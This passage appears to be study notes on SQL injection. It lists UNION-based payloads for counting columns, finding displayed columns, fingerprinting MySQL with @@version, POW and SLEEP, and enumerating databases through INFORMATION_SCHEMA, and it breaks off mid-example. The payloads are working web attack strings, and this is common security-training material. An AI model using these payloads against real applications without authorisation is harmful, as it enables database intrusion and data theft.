 <h4>Union Injection</h4>
<h5>Detect number of columns</h5>
<p>Order by method:</p>
<pre>
' order by 1-- -
</pre>
<p>Keep increasing until receive an error --> you know the amount of columns.</p>
<p>UNION method:</p>
<pre>
' UNION select 1,2,3-- -
</pre>
<p>Keep changing the numbers until it works.</p>

<h5>Location of Injection</h5>
<p>Often, not all columns are displayed on a web page. Therefore, we need to make sure our injection takes place in a column that is visible on the webpage. Otherwise, we will not see it's outputs.</p>
<pre>
' UNION select 1,@@version,3,4-- - (testing what columns are displayed)
</pre>

<h4>Database Enumeration</h4>
<h5>Identifying MYSQL</h5>
<p>To identify whether it is MYSQL, use one of the following queries:</p>
<table cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th>Query</th>
      <th>Scenario</th>
      <th>Output in MySQL/MariaDB</th>
      <th>Behavior in Other DBMS</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>SELECT @@version</code></td>
      <td>When we have full query output</td>
      <td>MySQL Version (e.g., <code>10.3.22-MariaDB-1ubuntu1</code>)</td>
      <td>In MSSQL it returns MSSQL version. Error with other DBMS.</td>
    </tr>
    <tr>
      <td><code>SELECT POW(1,1)</code></td>
      <td>When we only have numeric output</td>
      <td><code>1</code></td>
      <td>Error with other DBMS</td>
    </tr>
    <tr>
      <td><code>SELECT SLEEP(5)</code></td>
      <td>Blind/No Output</td>
      <td>Delays page response for 5 seconds and returns <code>0</code></td>
      <td>Will not delay response with other DBMS</td>
    </tr>
  </tbody>
</table>
<h5>Getting data from INFORMATION_SCHEMA Database</h5>
<p>This database gets us information about the which databases are present as well as their tables and columns.</p>
<p>To find all databases:</p>
<pre>
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
</pre>
<p>UNION injection example: </p>
<pre>
UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -